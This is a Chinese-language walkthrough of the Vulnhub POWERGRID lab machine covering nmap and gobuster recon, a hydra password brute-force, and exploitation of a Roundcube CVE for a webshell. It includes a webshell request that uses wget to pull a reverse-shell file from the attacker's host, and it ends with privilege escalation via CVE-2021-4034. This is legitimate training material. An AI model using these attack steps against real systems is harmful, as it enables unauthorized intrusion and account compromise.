 ```yaml
---
layer: article
title: Vulnhub	485	POWERGRID-1.0.1
tags: pentest vulnhub Walkthrough
---
```

考点：hydra,CVE
槽点：靶机三小时关闭，导入虚拟机后应及时快照。因为字典增大，三个小时内根本无法爆破成功。

靶机链接：<https://www.vulnhub.com/entry/powergrid-101,485/>

## 环境配置

| 名称            | IP        |
| --------------- | --------- |
| Kali Linux      | 10.0.2.15 |
| POWERGRID-1.0.1 | 10.0.2.28 |

## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.28
$ sudo nmap -v -A -p- $rip
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: PowerGrid - Turning your lights off unless you pay.
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
143/tcp open  imap     Dovecot imapd
|_imap-capabilities: STARTTLS listed IMAP4rev1 LOGINDISABLEDA0001 more have Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: AUTH=PLAINA0001 listed IMAP4rev1 have more Pre-login post-login capabilities LITERAL+ LOGIN-REFERRALS OK ID ENABLE IDLE SASL-IR
| ssl-cert: Subject: commonName=powergrid
| Subject Alternative Name: DNS:powergrid
| Issuer: commonName=powergrid
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-05-19T16:49:55
| Not valid after:  2030-05-17T16:49:55
| MD5:   29a4 274f 71a8 9044 9910 0979 8540 ecab
|_SHA-1: 06a5 0056 cf2c 7f94 9aad 01e7 7e91 7006 4eb0 d553
|_ssl-date: TLS randomness does not represent time
```

### WEB测试

```bash
$ gobuster dir --url http://10.0.2.28 -w /usr/share/wordlists/dirb/big.txt -x .php
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/.htpasswd.php        (Status: 403) [Size: 274]
/.htaccess.php        (Status: 403) [Size: 274]
/images               (Status: 301) [Size: 307] [--> http://10.0.2.28/images/]
/index.php            (Status: 200) [Size: 3644]                              
/server-status        (Status: 403) [Size: 274]                               
/zmail                (Status: 401) [Size: 456]                  
```

访问首页获得用户名三个，本地保存至文件`user`

![1](https://static.iihack.com/vulnhub/485/1.jpg)



访问zmail发现需要http认证

![2](https://static.iihack.com/vulnhub/485/2.jpg)

上hydra爆破

```bash
$ hydra -L user -P /usr/share/wordlists/rockyou.txt -f 10.0.2.28 http-get /zmail 
```

获得用户名密码

用户 `p48`

密码 `electrico`

### 漏洞发现

再次访问

![4](https://static.iihack.com/vulnhub/485/4.jpg)

登录成功

![5](https://static.iihack.com/vulnhub/485/5.jpg)



对照<https://github.com/t0kx/exploit-CVE-2016-9920> 进行利用

![6](https://static.iihack.com/vulnhub/485/6.jpg)

## 获得权限

获得webshell，下载反弹shell

http://10.0.2.28/zmail/backdoor.php?cmd=wget http://10.0.2.24/reverse/r444.php 

访问http://10.0.2.28/zmail/r444.php后获得反弹shell

![7](https://static.iihack.com/vulnhub/485/7.jpg)



## 提权

使用CVE-2021-4034提权

![8](https://static.iihack.com/vulnhub/485/8.jpg)
